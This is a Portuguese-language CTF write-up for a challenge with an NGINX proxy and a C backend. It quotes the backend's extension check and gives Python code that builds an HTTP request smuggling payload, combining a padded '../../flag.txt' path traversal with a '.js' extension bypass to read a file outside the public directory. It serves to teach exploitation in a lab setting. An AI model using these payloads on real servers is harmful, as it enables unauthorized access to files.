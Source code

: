 # Ex-01
###### Resolvido por @Menegaldo  
> Este é um CTF sobre [HTTP Request Smuggling, Path Traversal, Insecure Backend, Extension Bypass, Exploit de NGINX]

## Sobre o Desafio  
O desafio envolve um servidor NGINX e um backend C, onde há uma proteção que restringe as extensões dos arquivos servidos. O objetivo é explorar essa proteção, utilizando uma requisição HTTP maliciosa para acessar a flag fora do diretório público.

## Solução

O desafio foi configurado com um servidor NGINX que serve arquivos estáticos e um backend C. O código do backend contém uma verificação que restringe as extensões dos arquivos acessados. Arquivos apenas com as extensões `.html`, `.css`, `.js` e `.png` são aceitos. Além disso, o backend tenta acessar os arquivos dentro de um diretório `public/`.

No arquivo `server.c`, encontramos a seguinte proteção:

```c
if (!ends_with(filename, ".html") && !ends_with(filename, ".png") &&
    !ends_with(filename, ".css") && !ends_with(filename, ".js")) {
    return NULL;
}
```

Isso impede o acesso a arquivos com extensões diferentes das permitidas, como `flag.txt`.
Além disso, a construção do caminho para o arquivo é feita assim:

```c
snprintf(real_path, sizeof(real_path), "public/%s", filename);
```

Ou seja, um `GET /flag.txt` tentaria acessar `public/flag.txt`, mas isso seria bloqueado devido à verificação de extensão.

O objetivo é contornar a verificação de extensão, escapar do diretório `public/` e acessar o arquivo `flag.txt`. Além disso, a requisição maliciosa deve ser aceita pelo backend, mas não interpretada pelo NGINX.

Primeiro, construímos uma requisição que bypassa a verificação de extensão. Para isso, usamos uma requisição embutida, aproveitando a inconsistência de parsing entre o NGINX e o backend C.

Utilizamos um caminho como este:

```python
path = pad('../../flag.txt')
```

A função `pad(...)` insere `/` suficientes no começo do caminho, de modo que o caminho final tenha exatamente 1016 caracteres, adicionando `.js` no final. Isso burla a verificação de extensão.

A primeira parte da requisição é legítima e passa pelo NGINX:

```python
payload = (
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 1024\r\n'
    'Host: localhost\r\n'
    f'Foo: {"a"*931}\r\n'
    '\r\n'
)
```

A segunda parte da requisição é a injeção de uma nova requisição GET para o arquivo `flag.txt.js`, que o backend C aceitará:

```python
payload += (
    f'GET /{path}\r\n'
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 0\r\n'
    'Host: localhost\r\n'
    '\r\n'
)
```

O NGINX vê apenas a primeira requisição `GET /index.html`, e repassa tudo (headers e corpo) para o backend. O backend C, que usa `read()` diretamente e `sscanf(buffer, "GET /%s", ...)`, interpreta o corpo da requisição como uma nova requisição.

O backend aceita o caminho `../../flag.txt.js`, pois a extensão `.js` é permitida, e resolve para o arquivo `flag.txt` fora do diretório `public/`.

A resposta contendo a flag é visível no tráfego após o arquivo `index.html`. O script Python utiliza `.interactive()` para visualizar a resposta completa, incluindo a flag no corpo da resposta:

![wireshark](https://github.com/user-attachments/assets/f2a6ad09-9fe1-43d3-86ec-c92b9e89aed8)

